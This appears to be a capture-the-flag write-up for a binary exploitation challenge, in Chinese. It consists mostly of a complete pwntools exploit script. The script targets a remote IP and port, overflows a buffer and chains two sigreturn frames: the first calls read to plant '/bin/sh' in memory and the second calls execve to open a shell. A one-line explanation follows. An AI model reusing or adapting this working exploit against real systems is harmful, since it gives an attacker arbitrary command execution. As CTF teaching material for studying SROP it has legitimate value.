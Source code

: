 ### exp

```plain
from pwn import *
elf = ELF("./pwn")
io = remote('101.132.112.252',30573)
#io = process('./pwn')
context(log_level = 'debug', os = 'linux', arch = 'amd64')
def dbg():
    gdb.attach(io)
    pause()

syscall_ret=0x401127
ret=0x4000FE
data=0x404028
pop_rax=0x401139
#gdb.attach(io,'b 0x0000000004000FE')

sigframe = SigreturnFrame()
sigframe.rax = 0
sigframe.rdi = 0
sigframe.rdx = 0x400
sigframe.rsi = data
sigframe.rsp = data+8
sigframe.rip = syscall_ret

payload=b'a'*0x10+p64(pop_rax)+p64(syscall_ret)+bytes(sigframe)#

io.send(payload)
#dbg()
sigframe1 = SigreturnFrame()
sigframe1.rax = 59
sigframe1.rdi = data
sigframe1.rsi = 0
sigframe1.rdx = 0
sigframe1.rsp = 0
sigframe1.rip = syscall_ret

payload1=b'/bin/sh\x00'+p64(pop_rax)+p64(syscall_ret)+bytes(sigframe1)

io.sendline(payload1)

io.interactive()
```

### exp 分析

```plain
payload=b'a'*0x10+p64(pop_rax)+p64(syscall_ret)+bytes(sigframe)
```

因为程序中没有 sh 字符串，那么我们就需要构造一个 read 来写一段/bin/sh 字符串到程序中，并在后面继续执行下一段 srop 链
